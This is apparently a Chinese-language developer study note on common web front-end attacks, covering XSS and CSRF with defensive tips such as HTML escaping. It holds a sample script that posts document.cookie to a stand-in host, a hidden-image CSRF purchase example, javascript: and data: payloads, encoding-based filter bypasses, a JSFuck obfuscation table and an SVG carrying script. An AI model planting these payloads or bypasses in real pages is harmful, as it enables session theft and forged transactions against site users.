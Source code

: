 ```yaml
---
title: 常见的 web 前端攻击方式有哪些？
ID: '26487'
date: '2020-10-29 15:54:00'
categories:
  - engineering
  - dev-prod-env
tags:
  - engineering
  - dev-prod-env
---
```


# 常见的 web 前端攻击方式有哪些？

安全

- XSS 跨站请求攻击（反射型，存储型，DOM型）
- XSRF 跨站请求伪造

XSS 跨站请求攻击

比如：一个博客网站，我发表一篇博客，其中嵌入 `<script />`脚本，获取 cookie，发送到我的跨域服务器，当有人查看这篇文章，我可以获取访问者的 cookie

``` js 
<p>模拟 XSS 跨站，获取 cookie</p>
<script> alert(document.cookie);$.post('test.com', {cookie: document.cookie}) </script>
```

XSS 预防（也可以使用 XSS 工具，如 [https://www.npmjs.com/package/xss](https://www.npmjs.com/package/xss)）

- 替换特殊字符，如 < 变成`&lt;` > 变成`` `&gt;` ``
- `<script>` 变成 `&lt;script&gt;` ,这样不会作为脚本执行
- 建议前后端都替换

``` js 
&lt;script&gt; alert(document.cookie);$.post('test.com', {cookie: document.cookie}) &lt;/script&gt;
```

CSRF/XSRF 跨站请求伪造

比如：你正在购物，看中了某个商品，商品 id 是 100，付款接口：xxx.com/pay?id=100，但没任何验证，攻击者想购买 id 为 200 的商品，通过发送邮件隐藏 `<img src="xxx.com/pay?id=200" />`，一旦查看邮件，就购买了 id 为 200 的商品

XSRF 预防（现在很少见了）

- 使用 post 接口
- 增加验证，例如密码，短信验证码，指纹等

**其他**

为协议：

- Data 为协议：data:text/html;base64,PHNjcsdd=
- JavaScript为协议：javascript:alert(1)

Unicode 编码及 URL 编码绕过：

- JavaScript 编码：&#x，\\u 都可以用来表示一串 Unicode 编码，如：\\u0074 \\u0065 \\u0073 \\u0074 或 &#x0074 &#x0065 &#x0073 &#x0074
- HTML实体编码：&#116 &#101 &#115 &#116
- URL编码：%74 %65 %73 %74

xss 蠕虫，比如： myspace蠕虫攻击

xss 编码混淆，利用浏览器解析编码的顺序 js <- url <- html，比如： jsFuck 使用 6 个字符 \[\]()!+ 来编写

``` js 
false       =>  ![]
true        =>  !![]
undefined   =>  [][[]]
NaN         =>  +[![]]
0           =>  +[]
1           =>  +!+[]
2           =>  !+[]+!+[]
10          =>  +[[+!+[]]+[+[]]]
Array       =>  []
Number      =>  +[]
String      =>  []+[]
Boolean     =>  ![]
Function    =>  []["filter"]
run         =>  []["filter"]["constructor"]( CODE )()
eval        =>  []["filter"]["constructor"]("return eval")()( CODE )
window      =>  []["filter"]["constructor"]("return this")()
```

SVG 文件中插入 JS 代码

``` js 
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="100%" height="100%" version="1.1" xmlns="http://www.w3.org/2000/svg">
	<script>
		alert(11)
	</script>
</svg>
```
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
